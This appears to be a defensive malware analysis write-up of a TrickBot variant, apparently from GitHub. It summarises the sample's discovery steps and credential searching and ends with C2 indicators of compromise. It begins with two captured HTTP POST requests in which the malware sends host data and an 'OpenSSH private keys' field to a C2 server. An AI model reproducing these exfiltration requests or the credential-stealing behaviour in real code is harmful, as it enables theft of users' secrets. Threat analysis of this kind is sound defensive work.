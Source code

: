 ```
POST /tot773/DESKTOP-2C3IQHO_W10016299.4059EF9DC2CA46AD60D2E0765459BD36/83/ HTTP/1.1 Accept: */* Content-Type: multipart/form-data; boundary=---------QAKGETNFFXRQJOMX User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 10.0; Win64; x64; Trident/7.0; .NET4.0C; .NET4.0E; Tablet PC 2.0; .NET CLR 2.0.50727; .NET CLR 3.0.30729; .NET CLR 3.5.30729) Host: 96.9.73.73 Content-Length: 473 Connection: Close Cache-Control: no-cache -----------QAKGETNFFXRQJOMX Content-Disposition: form-data; name="formdata" {"descr":["NordVPN"],"dns1":["103.86.99.100"],"email":["USERNAME"],"q":["microsoft office"],"search":["91beb7c43da3dd723c9d44629ab656b4f913c5ec111d1d362279938645f7edd3"],"usernamefld":["admin"]}-----------QAKGETNFFXRQJOMX Content-Disposition: form-data; name="billinfo" {]}-----------QAKGETNFFXRQJOMX Content-Disposition: form-data; name="cardinfo" {]} -----------QAKGETNFFXRQJOMX--
```

```
POST /tot773/DESKTOP-2C3IQHO_W10016299.4059EF9DC2CA46AD60D2E0765459BD36/81/ HTTP/1.1 Accept: */* Content-Type: multipart/form-data; boundary=---------BSBWMEZDSAFVUJLA User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 10.0; Win64; x64; Trident/7.0; .NET4.0C; .NET4.0E; Tablet PC 2.0; .NET CLR 2.0.50727; .NET CLR 3.0.30729; .NET CLR 3.5.30729) Host: 96.9.73.73 Content-Length: 210 Connection: Close Cache-Control: no-cache -----------BSBWMEZDSAFVUJLA Content-Disposition: form-data; name="data" -----------BSBWMEZDSAFVUJLA Content-Disposition: form-data; name="source" OpenSSH private keys -----------BSBWMEZDSAFVUJLA--
```
---
# Analysis Summary 
When executed this malware spawns another instance of itself.
This new process then uses legitimate windows processes (wermgr.exe and svchost.exe) to execute its discovery tasks.
The discovery seen in this sample involved running ipconfig.exe, net.exe, nltest.exe, as well as a GET request to wtfismyip[.]com.
Aside from data about the host and network the malware searched for sensitive information on the host as well.
Crypto currency credentials, ssh credentials, vpn credentials and configurations, vnc credentials and configurations, git credentials, as well as browser history, cache and saved passwords were searched for.
The malware then exfiltrates this data over HTTPS in a POST request to several of its c2 servers.
One of the POST requests indicate that credit card information may have also been searched for in the files on the host.
As for persistence, nothing of note was done, there were no created registry keys, scheduled tasks, or services.
It seems the main intention of this malware is to steal information.
Being that we know this is a TrickBot variant based on OSINT we can confirm this analysis.
This sample was only running for 15-20 minutes. Typically in Trickbot infections the malware will continue to beacon out indefinitely.
It is not uncommon to see a phase two payload pushed to beaconing victims days after the initial infections.
Typically the phase two payload will be a more persistent and usually is either a ransomware variant, or a crypto miner.
In more targeted attacks it is not uncommon to see TrickBot used to deliver RATS and keygens.

## Indicators of Compromise
- 103.12.161.194
- 103.111.83.246
- 103.12.161.194
- 82.146.46.209
- 194.5.249.157
- 96.9.73.73
- 203.176.135.102